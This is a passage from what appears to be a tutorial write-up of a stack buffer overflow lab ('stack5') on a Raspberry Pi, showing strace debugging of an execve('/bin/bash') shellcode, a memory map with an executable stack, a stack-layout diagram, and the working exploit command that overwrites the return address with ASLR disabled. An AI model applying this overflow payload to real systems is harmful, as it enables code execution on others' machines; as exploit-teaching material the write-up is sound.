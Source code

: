 If the things don't result as expected, `strace`{.cpp} can be useful to
inspect what syscalls are being called and with which parameters:

```python
pi@raspberrypi:~$ strace -i ./test-egg egg.text
....
strace: Process 4959 attached <--- child process
execve("/bin/bash", [0x6e69622f, ..., 0x666f], 0x2407f) = -1 EFAULT (Bad address)
           ^            ^
         good          bad
```

## Search a home

Fortunately the stack is executable:

```nasm
pwndbg> vmmap
   0x10000    0x11000 r-xp     1000 0      /home/pi/stack5
   0x20000    0x21000 rwxp     1000 0      /home/pi/stack5
0xb6fcc000 0xb6fec000 r-xp    20000 0      /usr/lib/arm-linux-gnueabihf/ld-2.28.so
0xb6ffc000 0xb6ffe000 rwxp     2000 20000  /usr/lib/arm-linux-gnueabihf/ld-2.28.so
0xb6fff000 0xb7000000 r-xp     1000 0      [sigpage]
0xbefdf000 0xbf000000 rwxp    21000 0      [stack]
0xffff0000 0xffff1000 r-xp     1000 0      [vectors]
```

We can write the egg in the stack and then jump to it. The content
of the stack should be:

{% call maindiag('stack.svg', 'ditaa') %}
```
                 sp points here after func returned
                 |
                 v                  ||
--- main --------+------ start --   ||
AAAAAAAAA  addr1 | XXXXXXX      ... || bottom
--- ^ ----- ^ ---+--- ^ ---------   ||
    |       |         |             ||
 padding    sp       egg
```
{% endcall %}

`addr1`{.cpp} is `sp`. But what value is?

If we disable ASLR we can peek the value with a debugger: 0xbefffbb8

## The attack

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack5
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```
